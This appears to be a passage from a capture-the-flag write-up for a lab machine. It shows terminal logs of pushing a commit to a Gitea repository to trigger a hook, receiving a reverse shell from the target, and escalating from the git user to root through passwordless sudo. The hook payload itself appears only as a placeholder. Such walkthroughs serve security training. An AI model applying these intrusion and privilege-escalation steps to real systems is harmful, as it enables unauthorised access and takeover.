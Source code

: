 ![image.png](image%2018.png)

```bash
dylan@year-of-the-dog:/gitea/gitea$ cd /tmp
dylan@year-of-the-dog:/tmp$ git clone http://localhost:3000/overthenet/TESTRepo
Cloning into 'TESTRepo'...
warning: You appear to have cloned an empty repository.
dylan@year-of-the-dog:/tmp$ cd TESTRepo
dylan@year-of-the-dog:/tmp/TESTRepo$ ls
dylan@year-of-the-dog:/tmp/TESTRepo$ echo 'exploit_here' > README.md
dylan@year-of-the-dog:/tmp/TESTRepo$ git add README.md
dylan@year-of-the-dog:/tmp/TESTRepo$ git commit -m "Our Exploit"
[master (root-commit) 6bb62de] Our Exploit
 1 file changed, 1 insertion(+)
 create mode 100644 README.md
dylan@year-of-the-dog:/tmp/TESTRepo$ git push
Username for 'http://localhost:3000': overthenet
Password for 'http://overthenet@localhost:3000': 
Counting objects: 3, done.
Writing objects: 100% (3/3), 228 bytes | 228.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0)
```

```bash
connect to [10.2.37.37] from (UNKNOWN) [10.10.62.135] 37411
id
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
pwd
/data/git/repositories/overthenet/testrepo.git
whoami
git
sudo -l
User git may run the following commands on 42040a8f97fc:
    (ALL) NOPASSWD: ALL
sudo su
whoami
root
id
uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```
